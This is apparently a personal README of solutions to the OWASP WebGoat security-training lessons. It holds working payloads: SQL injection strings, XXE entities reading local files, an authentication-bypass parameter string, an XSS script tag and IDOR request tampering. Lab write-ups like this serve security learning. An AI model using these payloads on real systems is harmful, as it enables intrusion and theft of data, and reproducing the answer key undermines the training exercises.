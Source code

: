 # WebGoat
## [General](./General/README.md)
## [Injection Flaws](./Injection Flaws/README.md)
---
## Introduction [x]
### WebGoat [x]
* Read
### WebWolf [x]
* Install Webwolf, send email, write code from mail.
* Reset password, go to Webwolf get code
## General [x]
### Http basics [x]
* write something
* intercept HTTP, get header and read the answer
### Http Proxies [x]
* Intercept package, modify it to suite the task, make sure to modify properly the POST
```
/WebGoat/HttpProxies/intercept-request?changeMe=Requests%20are%20tampered%20easily HTTP/1.1
```
---
## Injection Flaws [ ]
### SQL Injeciton [x]
```SQL
smith' or '1' = '1
```
```SQL
1 or true
```
### SQL Injection advanced [ ]
```SQL
asd' or true; select * from user_system_data; --
```
```SQL
work in progress
```
### SQL Injeciton mitigation
```SQL
1' or true order by (case when (hostname = 'webgoat-prd') hostname else status;
```
* Solution: 192.168.4.0
### XXE
#### 3
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///" >]>
<comment>
  <text>aa&xxe;</text>
</comment>
```
#### 4
* Specify content type to be xml
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///" >]>
<comment>
  <text>aa&xxe;</text>
</comment>
```
#### 7
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:////home/USER/.webgoat/XXE/secret.txt" >]>
<comment>
  <text>a&xxe;</text>
</comment>
```
---
## Authentication Flaws [x]
### Authentication Bypass [x]
```js
(secQuestion0=aORtrue)&(secQuestion1=aORtrue)&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=12309746
```
### JWT tokens (Under development) [x]
* In development, therefore passed by default
---
## Coss-Site Scripting (XSS) [ ]
### Cross Site Scripting
#### 3
* YES
#### 7
* Credit card number field
```jss
<script>alert('my javascript here')</script>
```
#### 10
* 2 ways - start.mvc#test/
  * go to lesson java file and check if condition
  * go to GoatRoute.js and find the solution
#### 11
* url + <script>webgoat.customjs.phoneHome()
## Access Control Flaws [ ]
### Insecure Direct Object References
#### 2
* tom cat
#### 3
* Intercept http request
```json
{
  "role": 3,
  "color": "yellow",
  "size": "small",
  "name": "Tom Cat",
  "userId": "2342384"
}
```
* Missing fields are `role` and `userId`
#### 4
* Intercept HTTP, path to profile `WebGoat/IDOR/profile/2342384`
### Missing Function Level Access Control
#### 2
* Enough to access the console and analyse the html page and check for links or other important info that are just commented out. Like the Admin panel.
#### 3
*
## Insecure Communication
### Insecure Login
* Intercept the login and use the intercepted credential to sign-in
## Request Forgeries
### Cross-Site Request Forgeries
*
## Vulnerable Components - A9
### Vulnerable Components
* It is enough to delete the content ```<contact></contact>```
## Client side
* To solve all this tasks it is enough to search in the html the needed fields and modify them
### Client side filtering
### Bypass front-end restriction
### HTML tampering
## Challenges
### WebGoat Challenge
### Admin lost password
### Get it for free
### Photo comments
### Voting
### Without password
### Creating a new account
### Admin Password
### Without account
### Changing password
